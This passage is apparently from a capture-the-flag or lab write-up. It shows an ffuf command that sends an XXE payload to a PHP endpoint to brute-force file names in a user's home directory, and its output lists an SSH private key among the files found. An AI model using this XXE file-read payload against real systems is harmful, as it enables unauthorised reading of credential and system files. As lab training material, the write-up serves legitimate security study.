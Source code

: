 So, as we can list files by using XXE anyway, I try to brute force de home directory to get something else using `ffuf`

```shell
❯ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -u http://192.168.1.44/magic.php  -d '<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/david/FUZZ"> ]> <details><email>&xxe;</email><password>das</password></details>' --fw 11

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.1.44/magic.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt
 :: Data             : <?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/david/FUZZ"> ]> <details><email>&xxe;</email><password>das</password></details>
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 11
________________________________________________

.profile                [Status: 200, Size: 892, Words: 138, Lines: 28, Duration: 15ms]
.ssh/id_rsa             [Status: 200, Size: 2687, Words: 17, Lines: 39, Duration: 54ms]
.ssh/id_rsa.pub         [Status: 200, Size: 653, Words: 13, Lines: 2, Duration: 44ms]
.viminfo                [Status: 200, Size: 786, Words: 90, Lines: 39, Duration: 100ms]
:: Progress: [2565/2565] :: Job [1/1] :: 595 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

ffuf reports a _.viminfo_ file, this one can be interesting.

